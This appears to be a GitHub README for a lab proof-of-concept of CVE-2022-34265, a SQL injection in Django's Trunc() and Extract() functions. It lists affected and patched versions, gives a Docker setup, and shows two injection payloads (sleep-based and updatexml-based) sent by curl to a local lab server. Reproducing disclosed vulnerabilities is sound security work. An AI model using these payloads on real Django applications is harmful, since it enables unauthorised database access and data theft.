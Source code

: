 # CVE-2022-34265

*PoC for CVE-2022-34265*

---

## Description

An issue was discovered in Django 3.2 before 3.2.14 and 4.0 before 4.0.6. The `Trunc()` and `Extract()` database functions are subject to SQL injection if untrusted data is used as a kind/lookup_name value. Applications that constrain the lookup name and kind choice to a known safe list are unaffected.

## How to use

### Start

```bash
git clone https://github.com/ZhaoQi99/CVE-2022-34265.git
cd CVE-2022-34265
docker-compose up -d
```

### Remove

```bash
docker-compose down
```

## Affected Versions

* Django>= 3.2, < 3.2.14

* Django >= 4.0, < 4.0.6

## Patched versions

* Django 3.2.14

* Django 4.0.6

## Verification

### Environment

* Django 4.0.5
* Python 3.8.13
* MySQL 5.7

### Payload

* `YEAR FROM start_time)) ;select sleep(5)--`

* `YEAR FROM start_time)) and updatexml(1,concat(1,(select name from TEST limit 1),1),1)--`

### Poc

```bash
curl "http://127.0.0.1:8000/extract/?lookup_name=YEAR%20FROM%20start_time))%20%3Bselect%20sleep(5)--"
curl "http://127.0.0.1:8000/extract/?lookup_name=YEAR%20FROM%20start_time))%20and%20updatexml(1%2Cconcat(1%2C(select%20name%20from%20TEST%20limit%201)%2C1)%2C1)--"
```

> PS:In the case of different databases, the existence of vulnerabilities is different. The vulnerability does not exist in the MYSQL database backend `Trunc` function.

## Reference

* [Reporter: TAKUTO YOSHIKAI](https://github.com/aeyesec/CVE-2022-34265) (using PostgreSQL)

* [django/django@`877c800`](https://github.com/django/django/commit/877c800f255ccaa7abde1fb944de45d1616f5cc9)

* [django/django@`5e2f4dd`](https://github.com/django/django/commit/5e2f4ddf2940704a26a4ac782b851989668d74db)

* [https://github.com/advisories/GHSA-p64x-8rxx-wf6q](https://github.com/advisories/GHSA-p64x-8rxx-wf6q)

* [CVE-2022-34265 Django SQL 注入漏洞调试分析 - 先知社区](https://xz.aliyun.com/t/11628)